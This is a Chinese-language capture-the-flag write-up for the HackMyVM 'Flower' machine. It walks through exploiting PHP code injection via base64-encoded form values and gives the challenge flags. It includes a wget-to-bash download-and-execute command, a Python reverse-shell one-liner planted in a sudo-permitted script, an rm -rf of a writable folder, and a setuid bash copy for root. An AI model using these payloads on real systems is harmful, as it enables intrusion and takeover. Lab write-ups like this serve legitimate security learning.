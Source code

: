 # Flower

2024-11-06 https://hackmyvm.eu/machines/machine.php?vm=Flower

## IP

192.168.5.40

## Scan

```
PORT   STATE SERVICE
80/tcp open  http
```

查看 web 源代码，发现 selection 中对应的 value 值是 base64 编码，如第一项 MSsy 解码后为 1+2 选择后，返回的结果是 3，说明这里执行了 php 代码，存在漏洞，抓包修改 petals=c3lzdGVtKCdpZCcp (system('id')) 可以看到 www-data 的用户。

直接创建回连系统命令 system('wget -q -O - http://192.168.5.3/5.3/8888.sh|bash') base64 编码后为 c3lzdGVtKCd3Z2V0IC1xIC1PIC0gaHR0cDovLzE5Mi4xNjguNS4zLzUuMy84ODg4LnNofGJhc2gnKQ== 执行后得到了反弹的 shell。

/home/rose 目录中有 user flag 文件，但是没有读取权限，需要升级到此用户权限才行。

sudo -l 发现：

```
(rose) NOPASSWD: /usr/bin/python3 /home/rose/diary/diary.py

www-data@flower:/var/spool/cron$ cat /home/rose/diary/diary.py
import pickle

diary = {"November28":"i found a blue viola","December1":"i lost my blue viola"}
p = open('diary.pickle','wb')
pickle.dump(diary,p)
```

同时发现 /home/rose/diary 文件夹的权限是 777 所以我们可以直接在外层将整个文件夹删除 rm -rf /home/rose/diary

然后重新创建 diary.py 文件 内容如下：

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.3",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

或者在同一目录，创建 pickle.py 文件，内容为上述代码，同样在执行时，也能得到回连 shell。

sudo 执行得到了反弹的 7777 端口的 shell：

```
sudo -u rose /usr/bin/python3 /home/rose/diary/diary.py
```

得到了 user flag：

```
rose@flower:~$ cat user.txt
HMV{R0ses_are_R3d$}
```

sudo -l 发现提权到 root 的路径：

```
(root) NOPASSWD: /bin/bash /home/rose/.plantbook
```

对 /home/rose/.plantbook 有修改权限，直接修改其内容为：

```
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod  +xs /tmp/rootbash
```

sudo 执行：

```
rose@flower:~$ sudo /bin/bash /home/rose/.plantbook
rose@flower:~$ /tmp/rootbash -p
rootbash-5.0# cd /root
rootbash-5.0# ls
root.txt
rootbash-5.0# cat root.txt
HMV{R0ses_are_als0_black.}
```
